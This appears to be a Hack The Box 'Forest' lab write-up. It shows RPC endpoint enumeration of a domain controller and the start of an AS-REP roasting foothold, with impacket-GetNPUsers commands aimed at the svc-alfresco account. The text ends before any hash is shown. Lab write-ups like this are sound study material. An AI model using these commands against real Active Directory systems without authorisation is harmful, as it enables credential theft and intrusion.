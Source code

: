 ```bash
Provider: msdtcprx.dll 
UUID    : 906B0CE0-C70B-1067-B317-00DD010662DA v1.0 
Bindings: 
          ncalrpc:[LRPC-5cfd429cd2b0d68a3b]
          ncalrpc:[OLE6ABBC03867EA3898C9F570A96737]
          ncalrpc:[LRPC-c1be22243e18c10024]
          ncalrpc:[LRPC-c1be22243e18c10024]
          ncalrpc:[LRPC-c1be22243e18c10024]

Protocol: [MS-SCMR]: Service Control Manager Remote Protocol 
Provider: services.exe 
UUID    : 367ABB81-9844-35F1-AD32-98F038001003 v2.0 
Bindings: 
          ncacn_ip_tcp:10.129.210.137[49681]

Protocol: N/A 
Provider: N/A 
UUID    : F3F09FFD-FBCF-4291-944D-70AD6E0E73BB v1.0 
Bindings: 
          ncalrpc:[LRPC-eb3929a0d4b674f50c]

Protocol: N/A 
Provider: N/A 
UUID    : 64D1D045-F675-460B-8A94-570246B36DAB v1.0 CLIPSVC Default RPC Interface
Bindings: 
          ncalrpc:[ClipServiceTransportEndpoint-00001]

Protocol: [MS-DNSP]: Domain Name Service (DNS) Server Management 
Provider: dns.exe 
UUID    : 50ABC2A4-574D-40B3-9D66-EE4FD5FBA076 v5.0 
Bindings: 
          ncacn_ip_tcp:10.129.210.137[49698]

[*] Received 311 endpoints.

```


# Foothold

- We know that svc-alfresco doesnt need pre-auth for kerberos - this means its vulnerable to asreproasting
	- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast

```bash
┌──(kali㉿kali)-[~/Documents/htb/machines/forest]
└─$ impacket-GetNPUsers htb.local/ -dc-ip $IP                                                    
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-02-13 17:30:24.349530  2019-09-23 07:09:47.931194  0x410200 



                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/htb/machines/forest]
└─$ impacket-GetNPUsers htb.local/svc-alfresco -dc-ip $IP -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

```
